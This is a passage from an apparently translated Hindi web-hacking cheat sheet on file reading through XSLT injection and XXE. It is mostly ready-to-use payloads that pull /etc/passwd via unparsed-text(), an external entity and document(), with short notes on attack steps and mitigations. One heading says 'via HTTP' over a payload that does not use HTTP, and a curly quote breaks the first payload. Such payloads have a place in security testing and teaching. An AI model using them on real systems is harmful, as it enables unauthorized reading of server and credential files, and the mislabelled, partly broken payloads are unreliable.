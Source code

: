 ## फ़ाइलें पढ़ें

### **आंतरिक - PHP**
```markup
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', ‘utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
### **आंतरिक - XXE**

XXE (XML External Entity) एक सुरक्षा गड़बड़ी है जो XML पार्सिंग प्रोसेस में होती है। इस गड़बड़ी के माध्यम से, हम एक अतिरिक्त एंटिटी या बाहरी संसाधन को XML दस्तावेज़ में सम्मिलित कर सकते हैं। यह हमें अनुमति देता है कि हम बाहरी संसाधनों को पढ़ सकें, जैसे कि फ़ाइलें, डेटाबेस के डेटा, और नेटवर्क संदेश।

एक XXE हमले के लिए, हमें एक अविश्वसनीय XML दस्तावेज़ को भेजना होता है जिसमें हम एक बाहरी संसाधन को संदर्भित करते हैं। इसके परिणामस्वरूप, हम बाहरी संसाधन के सामग्री को प्राप्त कर सकते हैं और उसे अपनी इच्छानुसार उपयोग कर सकते हैं।

एक XXE हमले के लिए, हमें निम्नलिखित चरणों का पालन करना होता है:

1. एक अविश्वसनीय XML दस्तावेज़ तैयार करें जिसमें हम बाहरी संसाधन को संदर्भित करना चाहते हैं।
2. इस XML दस्तावेज़ को अनुरोध के रूप में भेजें और उसे पार्स करने के लिए सर्वर को प्रेरित करें।
3. जब सर्वर XML दस्तावेज़ को पार्स करता है, वह बाहरी संसाधन को संदर्भित करता है और उसकी सामग्री को प्राप्त करता है।
4. हम बाहरी संसाधन के सामग्री का उपयोग करते हैं और उसे अपनी इच्छानुसार उपयोग करते हैं।

XXE हमलों को रोकने के लिए, निम्नलिखित उपायों का पालन करें:

- सुरक्षा अद्यतनों को लागू करें जो XML पार्सिंग को सुरक्षित बनाते हैं।
- अविश्वसनीय और अनावश्यक XML एंटिटी को अक्षम करें।
- बाहरी संसाधनों के संदर्भ को प्रतिबंधित करें या सीमित करें।
- संदर्भित किए जाने वाले संसाधनों की सत्यापना करें और केवल विश्वसनीय संसाधनों को स्वीकार करें।

यदि आप एक पेंटेस्टर हैं, तो आप XXE हमलों को खोजने और उन्हें ठीक करने के लिए अपनी वेब ऐप्लिकेशन को परीक्षण कर सकते हैं।
```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```
### **HTTP के माध्यम से**
```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```
